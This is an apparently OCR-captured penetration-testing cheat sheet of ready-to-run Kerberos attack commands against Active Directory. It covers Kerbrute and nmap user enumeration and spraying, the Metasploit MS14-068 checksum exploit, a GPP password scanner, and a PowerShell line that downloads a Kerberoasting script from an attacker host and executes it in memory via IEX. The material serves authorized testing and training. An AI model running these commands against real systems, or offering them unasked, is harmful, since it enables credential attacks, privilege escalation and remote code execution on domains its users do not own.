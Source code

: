 # kerberos

% kerberos

## Kerbrute usersenum
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/ATTACK/BRUTEFORCE-SPRAY 
```
./kerbrute_linux_amd64 userenum -d <domain_fqdn> --dc <ip> <users_file>
```

## kerberos enum users
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/RECON 
```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain_fqdn>'" <ip>
```

## kerberos enum users (with user list)
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/ATTACK/BRUTEFORCE-SPRAY
```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain_fqdn>',userdb=<users_list_file>" <ip>
```

## kerberos ms14-068
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/ATTACK/EXPLOIT 
```
msfconsole -x "use auxiliary/admin/kerberos/ms14_068_kerberos_checksum"
```

## exploit gpp - group policy preference (ms14-025)
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/RECON 
```
msfconsole -x "use scanner/smb/smb_enum_gpp"
```

## powershell - get user SPN
#plateform/windows #target/remote #port/88 #protocol/kerberos #cat/RECON 

https://github.com/nidem/kerberoast
```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/GetUserSPNs.ps1') | IEX
```